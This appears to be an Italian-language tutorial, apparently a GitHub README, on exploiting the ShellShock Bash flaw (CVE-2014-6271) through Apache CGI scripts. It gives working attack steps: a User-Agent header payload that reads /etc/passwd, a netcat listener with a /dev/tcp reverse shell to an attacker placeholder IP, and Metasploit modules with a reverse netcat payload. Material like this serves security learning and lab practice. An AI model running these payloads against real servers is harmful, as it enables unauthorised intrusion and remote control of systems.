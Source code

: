 # Bash CVE-2014-6271 ShellShock

**ShellShock** è una vulnerabilità critica scoperta nel 2014 che interessa molte versioni del linguaggio **Bash** su sistemi *Unix-like*. Consente ad un attaccante di eseguire comandi arbitrari su un server vulnerabile sfruttando variabili d'ambiente manipolate, comunemente attraverso script **CGI** serviti da **Apache**.

## 1 Bash e CGI

**Bash (Bourne Again Shell)** è una shell a riga di comando molto diffusa nei sistemi Linux. <br>
Una **shell** è l'interfaccia testuale che consente l'interazione diretta con il sistema operativo, eseguendo comandi e script.

**CGI (Common Gateway Interface)** è uno standard che permette a un web server (es. Apache) di eseguire programmi o script (come `.cgi` o `.sh`) esterni, al fine di generare contenuti dinamici. <br>
Quando un utente visita una pagina che richiede un'elaborazione, il server Apache invoca lo script CGI per processare l'informazione.

Gli script `.cgi` sono spesso scritti in Bash, Python o Perl, ed eseguono codice con i permessi del server web. <br>
Se la shell di riferimento è una versione di Bash vulnerabile, gli script possono essere utilizzati per iniettare comandi arbitrari sfruttando ShellShock.

La vulnerabilità è causata dal modo in cui Bash gestisce **le variabili d'ambiente contenenti dichiarazioni di funzione**: 
```bash
() { :; }; echo vulnerabile
```
Questa stringa dovrebbe essere interpretata come una funzione vuota, ma Bash esegue anche il comando `echo vulnerabile`, rendendo possibile l'injection di comandi.

---

## 2 – Rilevamento del servizio vulnerabile

Eseguiamo una scansione per verificare che **Apache** sia attivo:

`nmap -sV <IP>`

Se la porta `80` mostra il servizio `Apache`, possiamo collegarci dal browser e verificare la presenza di contenuti o script `.cgi`. <br>
Consigliato ispezionare la pagina o directory per trovare riferimenti a file come `script.cgi`, `test.cgi`, ecc.

Dopo aver identificato uno script CGI lo visualizziamo inserendolo nella barra degli indirizzi del browser:

`http://<IP>/script.cgi`

Eseguiamo la scansione con Nmap per testare ShellShock:

`nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/script.cgi"`

> **Nota**: `http-shellshock.uri` indica il percorso relativo allo script CGI (es. `/test.cgi`). <br>
> La `URI` è semplicemente la parte finale del path usato per raggiungere lo script sulla macchina target.

---

## 3 – Exploitation manuale via BurpSuite

Impostiamo il proxy FoxyProxy su Firefox e abilitiamo **Intercept** su BurpSuite.

Carichiamo la pagina CGI e intercettiamo la richiesta HTTP. Cerchiamo l'header:
```http
User-Agent: Mozilla/5.0 (...)
```
Sostituiamo il valore con:
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
- `() { :; };` → definisce una funzione vuota
- `echo; echo;` → aggiunge output visibile per test
- `/bin/bash -c '<comando>'` → esegue il comando specificato

adesso abbiamo la possilitá di lanciare i comandi che vogliamo e quindi possiamo aprire una reverse shell dando il comando:

`nc -nvlp <PORTA>`

per configurare Netcat in modo che sia in ascolto su una determinata porta

successivamente possiamo usare il seguente comando
```bash
bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1
```
da inserire su BurpSuite.

Quindi il comando completo sará:
```bash
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1'
```

Appena il comando viene eseguito, avremo una reverse shell interattiva dal target vulnerabile.

---

## 4 – Exploitation automatizzato con Metasploit

### Scanner:
```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
run
```

### Exploit:
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
set PAYLOAD cmd/unix/reverse_netcat
set LHOST <IPAttaccante>
set LPORT <Porta>
run
```
Questo modulo automatizza l'invio del payload e apre una reverse shell sulla macchina target.
---
Consiglio di vedere la pagina <a href="https://github.com/opsxcq/exploit-CVE-2014-6271
">GitHub</a> per avere maggiori dettagli. 
